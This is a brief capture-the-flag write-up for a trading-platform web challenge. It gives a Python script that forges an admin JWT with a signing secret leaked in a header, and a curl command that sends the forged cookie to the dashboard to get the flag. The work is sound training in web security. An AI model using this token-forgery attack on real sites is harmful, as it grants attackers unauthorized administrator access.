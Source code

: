 # URl
https://host5.metaproblems.com:7606/

# Concept
We were given a trading platform website where we had to login as admin to get the flag but we were only given user logins.

# Solve
On logging in as user, I inspected the cookies and noticing that we have a jwt token for the current user. I wrote a python script to
manipulate the user token into an admin token.
~~~
import jwt
import time

# The secret from the 'jwt' header
secret = "jwt_z3bXPravDcYhjy5mhYgYLbWRoAPkPyn"

# Create payload for 'admin'
payload = {
    "sub": "admin",
    "iat": int(time.time()),
    "exp": int(time.time()) + 7200  # 2 hours from now
}

# Sign the token
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
~~~
After I used curl to send the token
~~~
curl -k -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiIsImlhdCI6MTc2MTIyODA5NSwiZXhwIjoxNzYxMjM1Mjk1fQ.ZJUOMnUgQvYVZGB-X8ucKsq86Vf8U4KOTbCUPZ5QiTE" \
  https://host5.metaproblems.com:7606/dashboard
~~~
Another method was to replace the jwt token in the browser and get the flag.

